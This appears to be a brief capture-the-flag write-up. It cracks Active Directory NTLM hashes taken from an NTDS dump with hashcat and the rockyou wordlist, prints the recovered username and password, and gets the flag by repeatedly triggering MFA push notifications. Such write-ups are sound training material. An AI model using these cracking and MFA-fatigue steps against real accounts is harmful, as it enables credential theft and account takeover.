



# Prompt



# Solution

- So we have an NTDS file and a SYSTEM file in the provided zip, let’s use Impacket:



```shell
cat hashes.txt.ntds | cut -d : -f 4 > JustTheHashes.txt
hashcat -m 1000 JustTheHashes.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 1000 JustTheHashes.txt --show
grep 08e7 hashes.txt.ntds

# User: huntressctf.local\JILLIAN_DOTSON => Password: katlyn99
```

- Sign into the portal as huntressctf\JILLIAN_DOTSON
- Click the Multifactor Push Notification a lot, lol, and then it should load and give you the flag

